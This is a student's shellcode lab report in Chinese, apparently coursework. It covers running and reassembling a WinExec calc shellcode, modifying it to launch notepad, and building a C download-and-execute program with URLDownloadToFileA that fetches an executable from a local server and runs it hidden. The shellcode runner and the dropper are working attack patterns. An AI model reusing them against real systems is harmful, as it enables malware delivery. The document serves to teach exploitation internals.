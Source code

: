 ## shellcode实验



### **实验要求**

- [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x]  自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad. exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）


### **实验过程**

**1. 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行**

- 关闭数据执行保护

	![](./img/关闭数据执行保护.PNG)

- 源文件要保存为.c文件

- 复制执行代码即可成功运行

	![](./img/calc.gif)


**2. 能从汇编源码编译通过并成功dump**

- 将代码复制粘贴到kali中并存成win32-WinExec_Calc-Exit.asm文件

	```
	nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
	```

- 将.asm文件编译成.o文件

	```
	for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
	```
执行结果如下

![](./img/calc编译通过.PNG)


**3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理**


![](./img/PE文件格式.jpg)

**4. 修改shellcode功能为运行记事本程序notepad. exe**

首先修改汇编源码,修改处只在`push`的地方

![](./img/修改notepad.PNG)


使用vimdiff工具观察两个.asm文件的不同

![](./img/使用vimdiff查看不同.PNG)

从汇编源码编译通过并成功dump

![](./img/notepad编译通过.PNG)






执行main函数即可
```
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)()) code;
	(int)(*func)();
}
```

结果如图

![](./img/notepad.gif)



**5. (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）**


代码
```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	//可以加载dll，根据函数名获得函数地址


	HMODULE hurlomd = LoadLibraryA("urlmon.dll");

	//GetProcAddress之前要想获得函数要遍历导出表
	//void* function_ptr = GetProcAddress(hurlomd, "URLDownloadToFileA");//urlmon.dll不会出现在导入表里，但是可以调用
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlomd, "URLDownloadToFileA");

	function_ptr(NULL, "http://10.195.24.35:8000/notepad.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);

}
```

在本地开启http server服务

![](./img/开启httpserver.PNG)

切换到Debug目录下后，点击即下载notepad.exe(功能：自动弹出记事本)

![](./img/点击即下载.PNG)

且运行上述代码后，会自动生成一个a.exe

![](./img/生成a.exe.PNG)

执行结果如下

![](./img/下载执行器.gif)

### **遇到的问题和解决方法**

1. [链接](https://www.exploit-db.com/shellcodes/48116)中shellcode程序无法正常运行，提示` error C2440: “类型强制转换”: 无法从“char [201]”转换为“int (__cdecl *)(void)”`
	- 解决：更改为.c文件即可

2. 对代码没有任何改动，但是notepad无法弹出
	- 解决：重新建立空项目与源文件就好了...不知道是怎么回事(请老师解惑QAQ)


